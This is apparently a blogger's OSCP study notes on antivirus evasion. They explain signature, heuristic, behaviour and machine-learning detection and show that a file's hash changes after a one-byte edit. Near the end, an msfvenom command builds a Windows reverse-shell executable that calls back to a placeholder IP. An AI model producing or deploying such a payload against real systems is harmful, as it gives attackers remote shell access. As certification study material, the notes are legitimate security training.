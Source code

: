 ```yaml
---
title: Antivirus Evasion
date: 2024-02-24 06:30:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Antivirus Evasion tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Antivirus Evasion

Attackers often attempt to disable or otherwise bypass antivirus solutions, which can conduct virus removal, IDS/IPS, website scanners, firewalls, etc.

## Antivirus Software Key Components and Operations

### Known vs Unknown Threats

Anti-v software does signature-based detection on known and specific pieces of malware, which can range from detecting a file hash to a specific binary sequence match.

YARA is a signature language that allows researchers to query VirusTotal or integrate their own signatures into AVs.

Modern AV, like Windows Defender, use Machine Learning that is queried everytime an unknown file is found on a host - meaning they can detect unknown malware. However, ML engines run in the cloud and need an active internet connection, which is often not feasible for internal enterprise servers.

To overcome this, we evolved EDRs, which gather security event telemetry and send it to a SIEM.

## Detection Methods

Signature-Based is a restricted list technology that scans for known malware in a file system, quarantining malicious files. The signature can be a hash of the file itself or a set of patterns, like binary strings/values that belong to a specific piece of malware. However, relying on a file hash is weak as changing just one bit will change a hash.

```console
$ nano malware.txt
  offsec
$ xdd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01100011  offsec
00000006: 00001010

$ sha256sum malware.txt
c361ec96c8f2ffd45e8a990c41cfba4e8a53a09e97c40598a0ba2383ff63510e  malware.txt

$ nano malware.txt
  offseC

$ xxd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01000011  offseC
00000006: 00001010

$ sha256sum malware.txt
15d0fa07f0db56f27bcc8a784c1f76a8bf1074b3ae697cf12acf73742a0cc37c  malware.txt
```

Heuristic-Based detection relies on sets of rules and algorithms that determine if an action is benign or malicious, often achieved by stepping through the instruction set of the binary file or disassembling and decompiling the machine code.

Behavior-Based detection dynamically assessses a binary file's behavior by executing the file in an emulated envionrment and searching for malicious behaviors.

Machine-Learning detection uses ML to detect unknown threats. Windows Defender, for example, has a client ML engine and a cloud ML engine that supports when the client engine cannot make a determination.

Let's test some AVs with a popular Metasploit payload using msfvenom.

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=111.111.111.111 LPORT=443 -f exe > binary.exe
```

Upload this file to VirusTotal to review various AV results. To get the file from a Windows host to your machine, leverage your webdav directory we made previously and add the library config file to the Windows target.
